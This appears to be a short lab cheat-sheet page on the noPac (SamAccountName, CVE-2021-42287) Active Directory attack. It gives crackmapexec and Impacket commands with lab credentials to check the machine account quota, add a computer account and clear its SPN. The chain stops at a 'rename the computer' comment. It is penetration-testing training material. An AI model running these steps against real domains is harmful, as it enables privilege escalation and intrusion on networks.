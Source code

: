 ```yaml
---
description: CVE-2021-42287
---
```


# SamAccountName (nopac)





```
// Get the MAQ of the domain
cme ldap winterfell.north.sevenkingdoms.local -u jon.snow -p iknownothing -d north.sevenkingdoms.local -M MAQ

// add a computer
addcomputer.py -computer-name 'samaccountname$' -computer-pass 'ComputerPassword' -dc-host winterfell.north.sevenkingdoms.local -domain-netbios NORTH 'north.sevenkingdoms.local/jon.snow:iknownothing'

// clear the SPN
addspn.py --clear -t 'samaccountname$' -u 'north.sevenkingdoms.local\jon.snow' -p 'iknownothing' 'winterfell.north.sevenkingdoms.local'

// rename the computer (computer -> DC)
```

cme ldap winterfell.north.sevenkingdoms.local -u jon.snow -p iknownothing -d north.sevenkingdoms.local -M MAQ

MAQ: MachineAccountQuota is the maximum number of machines that a non-privileged user can add to an AD.
